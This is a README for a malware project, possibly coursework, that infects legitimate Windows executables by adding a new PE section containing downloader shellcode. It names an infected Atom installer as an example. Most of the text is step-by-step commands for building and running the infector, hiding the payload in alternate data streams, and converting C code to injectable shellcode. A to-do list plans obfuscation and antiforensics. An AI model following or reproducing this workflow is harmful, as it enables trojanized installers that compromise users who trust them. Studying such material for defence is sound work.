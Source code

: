 # MALW-MCYBERS
## Infection
For the infection part we decided to use *New section* technique. This consits in adding a new section to a *.exe* file.

For this, we have the following files:
- InfectPE.cpp
- PE.cpp
- PE.h
- payload_downloader.cpp -> code that after will become the shellcode that will be injected in a legitimate exe file
- AtomSetup.exe -> The Atom installer infected

### Compilation

#### Infect a file
Put the shellcode inside the infectPE.cpp.
```sh
> g++ -c PE.cpp -std=c++17
> g++ -c InfectPE.cpp -std=c++17
> g++ -o InfectPE.exe InfectPE.o PE.o
> .\InfectPE.exe .\executable_to_infect.exe .\out.exe
```

#### List hidden payload
To list the payload, which will be hidden from the user:
```sh
> dir /R
```

#### Create shellcode
From C to assembly.
```sh
> ShellcodeCompiler_x64.exe -r Source.cpp -o Shellcode.bin -a assembly_code.asm -p win_x86
```
Assembly to shellcode.
```sh
$ nasm -f win32 assembly_code.asm 
$ objcopy -j .text -O binary assembly_code.obj temp_file.bin
$ hexdump -v -e '"\\" 1/1 "x%02x"' temp_file.bin
```

#### Run server
```sh
$ sudo node index.js
```

### To Do
- [X] Update downloaded file path and name
- [ ] Payload of exe file
- [ ] Obfuscation
- [ ] Antiforensics

### Old versions
```sh
> g++ -c processCreator.cpp
> g++ -o procesCreator.exe processCreator.o
> .\processCreator.exe executable_to_execute.exe

> g++ -c shellcodeExecuter.cpp
> g++ -o shellcodeExecuter.exe shellcodeExecuter.o
> .\shellcodeExecuter.exe
```
